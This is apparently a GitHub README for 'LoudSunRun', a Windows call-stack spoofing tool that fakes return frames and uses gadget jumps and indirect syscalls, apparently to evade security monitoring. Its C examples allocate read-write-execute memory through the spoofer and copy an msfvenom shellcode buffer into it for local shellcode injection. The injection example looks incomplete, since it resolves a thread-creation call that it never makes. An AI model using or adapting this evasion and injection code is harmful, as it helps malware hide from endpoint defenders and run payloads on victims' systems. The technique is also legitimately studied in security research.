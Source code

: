 # LoudSunRun
My shitty attempt at tampering with the callstack based on the work of namazso, SilentMoonWalk, and VulcanRaven

## Why?
Wanted to see how this magic shit worked and slapped random shit together. I think it works but don't quote me. All I do is stare at process hacker and go brr

## Overview
There are a few steps this abomination of c/asm does

1. Allocate args on stack
2. Generate fake frames
3. Prep syscall
4. Spoof the return address
5. Make the call

To perform these, a param struct is passed as arg 5 and the number of stack args is passed on arg 6. The param struct contains the following:
* address of the `jmp rbx` gadget  
* the original return address (for the Spoof function to return to)
* the stack sizes of our fake frames and gadget
* the address we want our fake frames to show on the call stack
* a SSN for syscalls (if included/ommited for non indirect syscalls, it does not affect anything)

The total stack size of the fake frames is calculated and the stack args are moved accordingly. A 0 is pushed onto the stack (which somehow cuts off the rest of the call stack??). 

Frames are then added, but in reverse order of appearence on the stack. They are planted like so  

1. Decrement stack pointer by the frame's size
2. Place the return address at the stack pointer

Then, the param struct is modified to "save" some information. The `fixup` function is loaded into the rbx, so when the function returns (to a `jmp rbx` gadget), it will land into `fixup`. Fixup then undoes all the funky stack pointer movement, restores the rbx, and jumps back to the OG return address.

## Implementation
A function can be called like so
```c
Spoof(arg1, arg2, arg3, arg4, &param, function, (PVOID)0);
```
Param is a struct containing some necessary information for the call to have fake frames added.  
The 6th argument is a pointer to the function to execute  
The 7th argument specifies the number of args to pass to the stack. It has to be at an 8 byte size.

Example of calling NtAllocateVirtualMemory with the indirect syscall method
```c 
/////////////////////////////
// Initialize param struct //
/////////////////////////////
PVOID ReturnAddress = NULL;
PRM p = { 0 };
NTSTATUS status = STATUS_SUCCESS;

//just find a JMP RBX gadget. Can look anywhere. I chose k32
p.trampoline = FindGadget((LPBYTE)GetModuleHandle(L"kernel32.dll"), 0x200000); 
printf("[+] Gadget is at 0x%llx\n", p.trampoline);

// Would walk export table but am lazy
ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("kernel32.dll"), "BaseThreadInitThunk")) + 0x14; 
p.BTIT_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.BTIT_retaddr = ReturnAddress;

ReturnAddress = (PBYTE)(GetProcAddress(LoadLibraryA("ntdll.dll"), "RtlUserThreadStart")) + 0x21;
p.RUTS_ss = CalculateFunctionStackSizeWrapper(ReturnAddress);
p.RUTS_retaddr = ReturnAddress;

p.Gadget_ss = CalculateFunctionStackSizeWrapper(p.trampoline);

// Hard coded for my machine, theoretically you do FreshyCalls or something
p.ssn = 0x18; 

/////////////////////////////
// Initialize Syscall Args //
/////////////////////////////

PVOID alloc = NULL;
SIZE_T size = 1024;

///////////////////////////
// Call with fake frames //
///////////////////////////

Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);

```

If your machine works like mine, it will look like this

![Call Stack](https://i.imgur.com/aHWnX4S.png)

Example calling calc
```
unsigned char buf[] = //msfvenom brrr

PVOID alloc = NULL;
SIZE_T size = 1024;

PVOID pNtAllocateVirtualMemory = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtAllocateVirtualMemory")) + 0x12;
PVOID pMemcpy = GetProcAddress(LoadLibraryA("msvcrt.dll"), "memcpy");
PVOID pNtCreateThreadEx = (PBYTE)(GetProcAddress(GetModuleHandleA("ntdll.dll"), "NtCreateThreadEx")) + 0x12;

p.ssn = 0x18;
Spoof((PVOID)(-1), &alloc, NULL, &size, &p, pNtAllocateVirtualMemory, (PVOID)2, (PVOID)(MEM_COMMIT | MEM_RESERVE), (PVOID)PAGE_EXECUTE_READWRITE);
Spoof(alloc, buf, (PVOID)276, NULL, &p, pMemcpy, (PVOID)0);
p.ssn = 0xc2;
PVOID hThread = NULL;
Spoof((PVOID)INFINITE, NULL, NULL, NULL, &p, Sleep, (PVOID)0);
Sleep(2000);
```
## Concerns
I have not done extensive testing with this. I only called a few functions and tried a local shellcode injection. Could be some edge cases I haven't considered. Also I don't have a huge background in this stuff, so there could be some inaccuracies. The r10-r15, rdi, and rsi are not restored cause I was too lazy to implement that.

Please reach out to me so I can learn cause I'm dumb as fuck. Godspeed.

## Credits
5pider - Gadget Finder code  
namazso - Return Address Spoofing  
klezvirus - SilentMoonWalk (for Frame funky things)  
william-burgess - Vulcan Raven (for finding stack wrapper)
